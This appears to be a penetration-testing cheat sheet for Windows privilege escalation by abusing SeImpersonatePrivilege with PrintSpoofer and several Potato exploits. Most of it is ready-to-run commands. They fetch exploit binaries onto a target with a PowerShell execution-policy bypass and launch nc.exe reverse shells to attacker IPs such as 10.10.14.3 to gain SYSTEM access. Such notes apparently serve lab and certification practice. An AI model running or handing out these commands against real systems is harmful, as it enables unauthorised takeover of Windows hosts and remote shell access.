#### Get-Service

If a particular file has a vulnerability and you wanna see which process it is tied to (if any), run:

```bash
get-service filename.exe
```

### SeImpersonatePrivilege

```bash
whoami /priv
```

```bash
wget https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer64.exe
python3 -m http.server 80
```

```bash
get-service # ensure that Spooler is running
powershell -ep bypass
iwr -uri http://192.168.119.2/PrintSpoofer64.exe -Outfile PrintSpoofer64.exe
.\PrintSpoofer64.exe -i -c powershell.exe # -i to interact w the process &  -c to specify the command we want to execute
whoami # Verify that it worked, that you are not NT AUTHORITY\SYSTEM
```

SweetPotato.

```bash
.\SweetPotato.exe -e EfsRpc -p c:\Users\Public\nc.exe -a "10.10.10.10 1234 -e cmd"
```


Juicy Potato 
- Abuse SeImpersonate or SeAssignPrimaryToken Privileges for System Impersonation

```bash
c:\tools\JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\tools\nc.exe 10.10.14.3 443 -e cmd.exe" -t *
```

Lovely Potato (Automated Juicy Potato)
- https://github.com/TsukiCTF/Lovely-Potato
- Works only until Windows Server 2016 and Windows 10 until patch 1803

PrintSpoofer (Exploit the PrinterBug for System Impersonation)
- Works for Windows Server 2019 and Windows 10, Spooler Service needs to be on

```bash
c:\tools\PrintSpoofer.exe -c "c:\tools\nc.exe 10.10.14.3 8443 -e cmd"
```

RoguePotato (Upgraded Juicy Potato)
Works for Windows Server 2019 and Windows 10

GodPotato
- Best if Spooler Service isn't On, with SweetPotato coming close
- Try both NET2 and NET4 unless you know which one to use
